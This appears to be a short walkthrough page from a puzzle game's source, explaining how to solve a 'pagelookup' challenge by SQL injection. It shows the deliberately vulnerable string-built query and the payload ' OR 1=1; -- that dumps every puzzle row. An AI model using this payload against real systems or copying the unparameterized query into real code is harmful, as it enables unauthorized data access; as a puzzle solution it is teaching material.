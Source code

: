 # pages: `pagelookup/`

The page allows the player to retrieve some basic information about the puzzles
they managed to finish given a URL.

![Screenshot of the /pagelookup/ data retrieval](images/07_pages_01.png)

The goal is to use SQL injection to retrieve data about the next puzzle.
The query used for the form look like so:

```sql
SELECT * FROM pages_puzzle WHERE url = '{query}';
```

A valid query text that can be used may therefore be, for example,
`' OR 1=1; --`. This gives a query like so:

```sql
SELECT * FROM pages_puzzle WHERE url = '' OR 1=1; --';
```

The query gives the following result:

![Screenshot of a full data retrieval](images/07_pages_02.png)
